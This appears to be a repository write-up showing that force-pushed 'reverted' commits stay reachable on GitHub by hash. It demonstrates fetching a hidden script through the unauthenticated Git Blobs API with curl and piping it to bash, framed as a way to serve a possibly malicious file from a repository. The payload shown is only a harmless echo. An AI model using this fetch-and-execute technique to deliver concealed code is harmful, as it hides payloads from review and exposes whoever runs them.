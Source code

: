 At this point a tree for this push has been created and [can be found here](https://github.com/Und3rf10w/boblobblob/tree/ce50e8a618900b0c897c3d77d3b5872bb4361db8).

There are many instances where it may be benefical to revert a commit that has been accidently pushed to GitHub, such as accidently commiting secrets, justifying the need for the ability to revert them. Let's revert the commit where we added `hiddenfile.sh` through `git`, by going back to the prior commit to remove it, and force pushing the revert:

```bash
# git reset --hard a27e6e38d63dacf9bb828a01abbbb41dee0cdb76
HEAD is now at a27e6e3 Filled README.md
#  git push -f origin master
Total 0 (delta 0), reused 0 (delta 0)
To git@github.com:Und3rf10w/boblobblob.git
 + 7e66cf5...a27e6e3 master -> master (forced update)
```

## Accessing hiddenfile.sh

Now, if we look at the GitHub interface, aside from this document, there's no indication that our tree ever existed, however, if you know the commit's hash, [you can still browse to it](https://github.com/Und3rf10w/boblobblob/tree/ce50e8a618900b0c897c3d77d3b5872bb4361db8), as well as [access the file we attempted to redact](https://github.com/Und3rf10w/boblobblob/blob/ce50e8a618900b0c897c3d77d3b5872bb4361db8/hiddenfile.sh).

Essentially, to anyone simply browsing this repository, assuming no previous external links existed, there would not be any indication that `hiddenfile.sh` ever actually existed, even though it's stil technically accessible.

If we still have this blob located in our `.git` directory (which would only ever happen if you had a copy of the repository between the time that `hiddenfile.sh` was commited and redacted), then [as show in Kevin's project](https://github.com/khodges42/ghostfacekilla/blob/44a1f29de1f14d06d5876d10723d993ec6bd1fbb/src/sneaky_gfk.sh#L6), we can access this locally with `git cat-file` simply by knowing `hiddenfile.sh`'s sha sum:

```bash
# git cat-file -p 44531211b7c63aab97c174d98d79e99b1086f145
echo "secret malicious code has been executed"
# git cat-file -p 44531211b7c63aab97c174d98d79e99b1086f145 | bash
secret malicious code has been executed
```

That works fine for anyone that still has the `hiddenfile.sh` binary object in their working directory, but what if we wanted to use GitHub to serve our (possibly) malicious file?

## Using the Git Blobs api
GitHub provides a [Git Blobs](https://developer.github.com/v3/git/blobs/) api that allows us to interact with git blobs with no authentication. The HTTP request for this uses the following format for the host `api.github.com`:

`GET /repos/:owner/:repo/git/blobs/:file_sha`

Let's try to grab the file through the api:

``` bash
# curl --silent -H "Content-Type: application/json" -H "Accept: application/vnd.github.v3.raw" https://api.github.com/repos/Und3rf10w/boblobblob/git/blobs/44531211b7c63aab97c174d98d79e99b1086f145
echo "secret malicious code has been executed"
# !! | bash
secret malicious code has been executed
```
